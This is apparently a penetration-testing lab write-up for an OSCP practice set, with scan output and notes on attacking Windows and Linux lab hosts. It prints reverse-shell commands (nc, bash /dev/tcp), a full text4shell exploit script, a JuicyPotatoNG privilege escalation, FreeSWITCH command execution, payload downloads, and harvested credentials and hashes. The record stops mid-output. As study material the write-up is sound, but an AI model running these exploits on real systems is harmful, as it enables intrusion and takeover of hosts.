





## Overview


## Nmap(外網)
* `192.168.x.147`
```
┌──(kali㉿kali)-[~]
└─$ nmap -sCV -O -p- 192.168.130.147     
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 09:16 EST
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 24.20% done; ETC: 09:18 (0:01:09 remaining)
Nmap scan report for 192.168.130.147
Host is up (0.083s latency).
Not shown: 65516 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 e0:3a:63:4a:07:83:4d:0b:6f:4e:8a:4d:79:3d:6e:4c (RSA)
|   256 3f:16:ca:33:25:fd:a2:e6:bb:f6:b0:04:32:21:21:0b (ECDSA)
|_  256 fe:b0:7a:14:bf:77:84:9a:b3:26:59:8d:ff:7e:92:84 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8000/tcp  open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-open-proxy: Proxy might be redirecting requests
8080/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Bad Request
|_http-server-header: Microsoft-HTTPAPI/2.0
8443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2026-02-06T14:21:13+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=MS01.oscp.exam
| Subject Alternative Name: DNS:MS01.oscp.exam
| Not valid before: 2022-11-11T07:04:43
|_Not valid after:  2023-11-10T00:00:00
|_http-title: Bad Request
| tls-alpn: 
|_  http/1.1
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019|7|2008|8.1 (98%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 10 1909 - 2004 (98%), Microsoft Windows 10 1909 (91%), Microsoft Windows Server 2019 (90%), Microsoft Windows 10 1903 - 21H1 (90%), Microsoft Windows 10 1709 - 21H2 (90%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows 10 20H2 - 21H1 (88%), Microsoft Windows 10 21H2 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-02-06T14:20:59
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 276.30 seconds

```
* `192.168.x.149`
```
┌──(kali㉿kali)-[~]
└─$ nmap -sCV -O -p- 192.168.130.149
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 09:17 EST
Nmap scan report for 192.168.130.149
Host is up (0.090s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5c:5f:f1:bb:02:f9:14:7c:8e:38:32:2b:f4:bc:d0:8c (RSA)
|   256 18:e2:47:e1:c8:40:a1:d0:2c:a5:87:97:bd:01:12:27 (ECDSA)
|_  256 26:2d:98:d9:47:6d:22:5d:4a:14:7a:24:5c:98:a2:1d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 159.86 seconds
```
```
┌──(kali㉿kali)-[~]
└─$ nmap -sU -sC -sV --top-ports 50 192.168.130.149
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 09:25 EST
Nmap scan report for 192.168.130.149
Host is up (0.085s latency).
Not shown: 29 open|filtered udp ports (no-response)
PORT      STATE  SERVICE         VERSION
67/udp    closed dhcps
68/udp    closed dhcpc
111/udp   closed rpcbind
135/udp   closed msrpc
136/udp   closed profile
137/udp   closed netbios-ns
161/udp   open   snmp            SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info: 
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: 37786c342a15766300000000
|   snmpEngineBoots: 13
|_  snmpEngineTime: 16m32s
| snmp-netstat: 
|   TCP  0.0.0.0:22           0.0.0.0:0
|   TCP  0.0.0.0:80           0.0.0.0:0
|   TCP  127.0.0.53:53        0.0.0.0:0
|   TCP  192.168.130.149:39618 91.189.91.42:443
|   UDP  0.0.0.0:161          *:*
|_  UDP  127.0.0.53:53        *:*
518/udp   closed ntalk
520/udp   closed route
631/udp   closed ipp
996/udp   closed vsinet
998/udp   closed puparp
1025/udp  closed blackjack
1433/udp  closed ms-sql-s
1434/udp  closed ms-sql-m
2049/udp  closed nfs
3283/udp  closed netassistant
5060/udp  closed sip
20031/udp closed bakbonenetvault
49152/udp closed unknown
49154/udp closed unknown
Service Info: Host: oscp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 328.41 seconds
```

* `192.168.x.150`
```
┌──(kali㉿kali)-[~]
└─$ nmap -sCV -O -p- 192.168.130.150
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 09:17 EST
Nmap scan report for 192.168.130.150
Host is up (0.086s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ad:ac:80:0a:5f:87:44:ea:ba:7f:95:ca:1e:90:78:0d (ECDSA)
|_  256 b3:ae:d1:25:24:c2:ab:4f:f9:40:c5:f0:0b:12:87:bb (ED25519)
8080/tcp open  http    Apache Tomcat (language: en)
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Spring Java Framework
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 166.28 seconds
```
* `192.168.x.141`
```
┌──(kali㉿kali)-[~]
└─$ nmap -sCV -O -p- 192.168.130.151
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 09:17 EST
Nmap scan report for 192.168.130.151
Host is up (0.086s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE          VERSION
80/tcp   open  http             Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
|_ssl-date: 2026-02-06T14:19:41+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: OSCP
|   NetBIOS_Domain_Name: OSCP
|   NetBIOS_Computer_Name: OSCP
|   DNS_Domain_Name: OSCP
|   DNS_Computer_Name: OSCP
|   Product_Version: 10.0.19041
|_  System_Time: 2026-02-06T14:19:36+00:00
| ssl-cert: Subject: commonName=OSCP
| Not valid before: 2026-02-05T14:10:42
|_Not valid after:  2026-08-07T14:10:42
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10 (92%)
OS CPE: cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (92%), Microsoft Windows 10 1909 - 2004 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 146.72 seconds
```

## 192.168.x.147
* Initial Credential
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.147]
└─$ evil-winrm -i 192.168.130.147 -u Eric.Wallows -p EricLikesRunning800           
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeShutdownPrivilege           Shut down the system                      Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
SeTimeZonePrivilege           Change the time zone                      Enabled
```

* Privilege escalation
`SeImpersonatePrivilege`
```
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> curl http://192.168.45.234/JuicyPotatoNG.exe -o JuicyPotatoNG.exe
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> curl http://192.168.45.234/nc64.exe -o nc.exe
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> .\JuicyPotatoNG.exe -t * -p "nc.exe" -a "192.168.45.234 4444 -e powershell"


         JuicyPotatoNG
         by decoder_it & splinter_code

[*] Testing CLSID {854A20FB-2D44-457D-992F-EF13785D2B51} - COM server port 10247
[+] authresult success {854A20FB-2D44-457D-992F-EF13785D2B51};NT AUTHORITY\SYSTEM;Impersonation
[+] CreateProcessAsUser OK
[+] Exploit successful!
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> 
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.147]
└─$ nc -lvnp 4444              
listening on [any] 4444 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.130.147] 51908
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\> whoami
whoami
nt authority\system
PS C:\> 
```

* Credential Access
1. `web_svc`
`53e938166782a44e241beaf02d081ff6`


2. `local-Administrator`
`3c4495bbd678fac8c9d218be4f2bbc7b`


3. History File




## 192.168.x.149(WTF)
* FTP
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B]
└─$ nxc ftp 192.168.130.149 -u anonymous -p anonymous
FTP         192.168.130.149 21     192.168.130.149  [-] anonymous:anonymous (Response:530 Permission denied.)
```

* HTTP
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B]
└─$ dirsearch -u http://192.168.130.149
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/Pen200/OSCP_B/reports/http_192.168.130.149/_26-02-06_09-29-56.txt

Target: http://192.168.130.149/

[09:29:56] Starting: 
[09:29:59] 403 -  280B  - /.ht_wsr.txt                                      
[09:29:59] 403 -  280B  - /.htaccess.bak1                                   
[09:29:59] 403 -  280B  - /.htaccess.orig                                   
[09:29:59] 403 -  280B  - /.htaccess.sample
[09:29:59] 403 -  280B  - /.htaccess.save
[09:29:59] 403 -  280B  - /.htaccess_extra                                  
[09:29:59] 403 -  280B  - /.htaccess_orig
[09:29:59] 403 -  280B  - /.htaccessBAK
[09:29:59] 403 -  280B  - /.htaccess_sc
[09:29:59] 403 -  280B  - /.htaccessOLD2
[09:29:59] 403 -  280B  - /.htaccessOLD
[09:29:59] 403 -  280B  - /.htm                                             
[09:29:59] 403 -  280B  - /.html
[09:29:59] 403 -  280B  - /.htpasswd_test                                   
[09:29:59] 403 -  280B  - /.htpasswds                                       
[09:29:59] 403 -  280B  - /.httr-oauth
[09:30:32] 403 -  280B  - /server-status                                    
[09:30:32] 403 -  280B  - /server-status/
```

* SNMP
```
┌──(.venv)─(kali㉿kali)-[~/…/Pen200/OSCP_B/192.168.x.149/snmp-shell]
└─$ snmpwalk -v 2c -c public 192.168.130.149 NET-SNMP-EXTEND-MIB::nsExtendOutputFull
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."RESET" = STRING: Resetting password of kiero to the default value
                                                                                                                                                                                  
┌──(.venv)─(kali㉿kali)-[~/…/Pen200/OSCP_B/192.168.x.149/snmp-shell]
└─$ snmpwalk -v 2c -c public 192.168.130.149 NET-SNMP-EXTEND-MIB::nsExtendObjects   
NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendCommand."RESET" = STRING: ./home/john/RESET_PASSWD
NET-SNMP-EXTEND-MIB::nsExtendArgs."RESET" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendInput."RESET" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendCacheTime."RESET" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendExecType."RESET" = INTEGER: exec(1)
NET-SNMP-EXTEND-MIB::nsExtendRunType."RESET" = INTEGER: run-on-read(1)
NET-SNMP-EXTEND-MIB::nsExtendStorage."RESET" = INTEGER: permanent(4)
NET-SNMP-EXTEND-MIB::nsExtendStatus."RESET" = INTEGER: active(1)
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."RESET" = STRING: Resetting password of kiero to the default value
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."RESET" = STRING: Resetting password of kiero to the default value
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."RESET" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendResult."RESET" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendOutLine."RESET".1 = STRING: Resetting password of kiero to the default value
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B]
└─$ nxc ftp 192.168.130.149 -u kiero -p kiero                                                
FTP         192.168.130.149 21     192.168.130.149  [+] kiero:kiero
```

* ftp
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B]
└─$ ftp 192.168.130.149          
Connected to 192.168.130.149.
220 (vsFTPd 3.0.3)
Name (192.168.130.149:kali): kiero
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls
229 Entering Extended Passive Mode (|||10096|)
150 Here comes the directory listing.
-rwxr-xr-x    1 114      119          2590 Nov 21  2022 id_rsa
-rw-r--r--    1 114      119           563 Nov 21  2022 id_rsa.pub
-rwxr-xr-x    1 114      119          2635 Nov 21  2022 id_rsa_2
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||10096|)
150 Opening BINARY mode data connection for id_rsa (2590 bytes).
100% |******************************************************************************************************************************************************************************************************************|  2590        4.44 MiB/s    00:00 ETA226 Transfer complete.
2590 bytes received in 00:00 (26.40 KiB/s)
ftp> get id_rsa_2
local: id_rsa_2 remote: id_rsa_2
229 Entering Extended Passive Mode (|||10091|)
150 Opening BINARY mode data connection for id_rsa_2 (2635 bytes).
100% |******************************************************************************************************************************************************************************************************************|  2635       17.45 MiB/s    00:00 ETA226 Transfer complete.
2635 bytes received in 00:00 (28.04 KiB/s)
ftp> exit
221 Goodbye.
```

* ssh
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.149]
└─$ chmod 0600 id_rsa                    
                                                                                                                                                                                  
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.149]
└─$ ssh -i id_rsa john@192.168.130.149
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Last login: Tue Nov 22 08:31:27 2022 from 192.168.118.3
john@oscp:~$ 
```

* Privilege Escalation

  
```bash
john@oscp:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
john@oscp:~$ export PATH=/tmp:$PATH
john@oscp:~$ nano /tmp/chpasswd
john@oscp:~$ cat /tmp/chpasswd
#!/bin/bash

cat;bash -i >& /dev/tcp/192.168.45.179/4444 0>&1
john@oscp:~$ chmod +x /tmp/chpasswd
john@oscp:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
john@oscp:~$ ./RESET_PASSWD
kiero:kiero
```
```bash
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.149]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.179] from (UNKNOWN) [192.168.117.149] 53974
root@oscp:~# id
id
uid=0(root) gid=0(root) groups=0(root),1000(john)
root@oscp:~# 
```
## 192.168.x.150
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B]
└─$ dirsearch -u http://192.168.130.150:8080
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/Pen200/OSCP_B/reports/http_192.168.130.150_8080/_26-02-06_09-50-52.txt

Target: http://192.168.130.150:8080/

[09:50:52] Starting: 
[09:51:01] 400 -  800B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[09:51:02] 400 -  800B  - /a%5c.aspx                                        
[09:51:14] 200 -  194B  - /CHANGELOG                                        
[09:51:19] 500 -  105B  - /error                                            
[09:51:19] 500 -  105B  - /error/                                           
[09:51:20] 200 -  946B  - /favicon.ico                                      
[09:51:34] 200 -   25B  - /search                                           
                                                                             
Task Completed
```
`CHANGELOG`
```md
# Changelog

Version 0.2
- Added Apache Commons Text 1.8 Dependency for String Interpolation

Version 0.1
- Initial beta version based on Spring Boot Framework
- Added basic search functionality
```
`search`
query測試後判斷沒辦法直接用於SQLi或Directory Traversal
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.150]
└─$ curl http://192.168.165.150:8080/search          
{"query":"*","result":""}                                                                                                                                                                                  
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.150]
└─$ curl http://192.168.165.150:8080/search?query=123
{"query":"123","result":""}                                                                                                                                                                                  
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.150]
└─$ curl http://192.168.165.150:8080/search?query=\' 
{"query":"'","result":""}
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.150]
└─$ searchsploit "Apache Commons Text"  
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                  |  Path
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Apache Commons Text  1.10.0 - Remote Code Execution                                                                                             | multiple/webapps/52261.py
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
```

搜尋到的Exploit是透過指令輸入達成RCE，判斷可用於search頁面的query參數
```python
#!/usr/bin/env python3

import urllib.parse
import http.client
import sys

def usage():
    print("Usage: python3 text4shell.py <target_ip> <callback_ip> <callback_port>")
    print("Example: python3 text4shell.py 127.0.0.1 192.168.22.128 4444")
    sys.exit(1)

if len(sys.argv) != 4:
    usage()

target_ip = sys.argv[1]
callback_ip = sys.argv[2]
callback_port = sys.argv[3]

raw_payload = (
    f"${{script:javascript:var p=java.lang.Runtime.getRuntime().exec("
    f"['bash','-c','bash -c \\'exec bash -i >& /dev/tcp/{callback_ip}/{callback_port} 0>&1\\''])}}"
)


encoded_payload = urllib.parse.quote(raw_payload)


path = f"/search?query={encoded_payload}" # modify the parameter according to your target 

print(f"[!] Remember to modify the parameter according to your target")
print(f"[+] Target: http://{target_ip}{path}")
print(f"[+] Payload (decoded): {raw_payload}")


conn = http.client.HTTPConnection(target_ip, 8080) # Port modified as well (from 80 to 8080)
conn.request("GET", path, body="", headers={       # Modified from POST to GET
    "Host": target_ip,
    "Content-Type": "application/json",
    "Content-Length": "0"
})
response = conn.getresponse()
print(f"[+] Response Status: {response.status}")
print(response.read().decode())
conn.close()
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.150]
└─$ python3 52261.py 192.168.165.150 192.168.45.234 4444
[!] Remember to modify the parameter according to your target
[+] Target: http://192.168.165.150/search?query=%24%7Bscript%3Ajavascript%3Avar%20p%3Djava.lang.Runtime.getRuntime%28%29.exec%28%5B%27bash%27%2C%27-c%27%2C%27bash%20-c%20%5C%27exec%20bash%20-i%20%3E%26%20/dev/tcp/192.168.45.234/4444%200%3E%261%5C%27%27%5D%29%7D
[+] Payload (decoded): ${script:javascript:var p=java.lang.Runtime.getRuntime().exec(['bash','-c','bash -c \'exec bash -i >& /dev/tcp/192.168.45.234/4444 0>&1\''])}
[+] Response Status: 200
{"query":"${script:javascript:var p=java.lang.Runtime.getRuntime().exec(['bash','-c','bash -c \'exec bash -i >& /dev/tcp/192.168.45.234/4444 0>&1\''])}","result":""}
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.165.150] 42800
bash: cannot set terminal process group (841): Inappropriate ioctl for device
bash: no job control in this shell
dev@oscp:/$ id
id
uid=1001(dev) gid=1001(dev) groups=1001(dev)
```

* Privilege Escalation
1. Open Ports
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports
══╣ Active Ports (netstat)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      841/java  
```


## 192.168.x.151
* HTTP
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B]
└─$ dirsearch -u http://192.168.130.151     
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/Pen200/OSCP_B/reports/http_192.168.130.151/_26-02-06_09-59-46.txt

Target: http://192.168.130.151/

[09:59:46] Starting: 
[09:59:48] 403 -  312B  - /%2e%2e//google.com                               
[09:59:48] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd             
[09:59:54] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[10:00:05] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd     
                                                                             
Task Completed
```

* FreeSWITCH
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.151]
└─$ searchsploit FreeSWITCH                                 
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                                                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FreeSWITCH - Event Socket Command Execution (Metasploit)                                                                                                                                                                                                                                                                              | multiple/remote/47698.rb
FreeSWITCH 1.10.1 - Command Execution                                                                                                                                                                                                                                                                                                 | windows/remote/47799.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.151]
└─$ python3 47799.py 192.168.130.151 "whoami /all"
Authenticated
Content-Type: api/response
Content-Length: 2441


USER INFORMATION
----------------

User Name  SID                                          
========== =============================================
oscp\chris S-1-5-21-861469990-2748031089-4170181761-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled 
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.151]
└─$ python3 47799.py 192.168.130.151 "curl http://192.168.45.234/reverse.exe -o C:\\windows\\temp\\reverse.exe"
Authenticated
Content-Type: api/response
